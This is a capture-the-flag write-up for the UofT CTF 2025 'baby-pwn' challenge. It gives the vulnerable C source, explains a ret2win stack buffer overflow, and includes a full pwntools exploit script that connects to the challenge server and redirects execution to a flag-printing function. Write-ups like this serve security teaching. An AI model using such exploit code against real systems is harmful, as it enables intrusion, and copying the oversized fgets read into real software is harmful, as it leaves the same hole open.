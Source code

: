 ```yaml
---
layout: writeup
category: UofT-CTF-2025
chall_description: 
points: 100
solves: 459
tags: pwn pwn/buffer-overflow pwn/ret2win
date: 2025-1-12
comments: false
---
```


Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

Author: atom

[baby-pwn.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2025/baby-pwn.zip)  

---

We're provided the binary along with the source file:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}

void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the Baby Pwn challenge!\n");
    printf("Address of secret: %p\n", secret);
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

No need to even look at the binary's protections here -- this is a simple, easy ret2win.  

We have a buffer overflow on `buffer`, allowing us to overwrite the saved RIP, as 128 bytes are read into a 64 byte buffer. Also, he program leaks the address of `secret()`, so we can just write that to saved RIP!  

The exploit can be summed up in three lines:  

```py
# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')
```

The first (commented-out) line, when we run the binary with GDB attached, will give us the offset in our input where the saved RIP is. The next two lines use that information to overwrite the saved RIP with the address of `secret()` (turns out you don't even need the program's leak because the binary doesn't have the PIE protection enabled!)  

And we get the flag!  

	uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}

Full script (it's long because I made a pwn template for myself):  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("baby-pwn") #------TODO------#
libc = _libcs[0] if len(_libcs) else elf.libc
ld = _lds[0] if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# 
'''

if 'REMOTE' in args:
    p = remote('34.162.142.123', 5000) #------TODO------#
else:
    p = process([elf.path])
    gdb.attach(p, gdbscript=gdbscript)


###################################
#==========BEGIN EXPLOIT==========#
###################################

# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')

###################################
#===========END EXPLOIT===========#
###################################


p.interactive()
p.close()

# uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```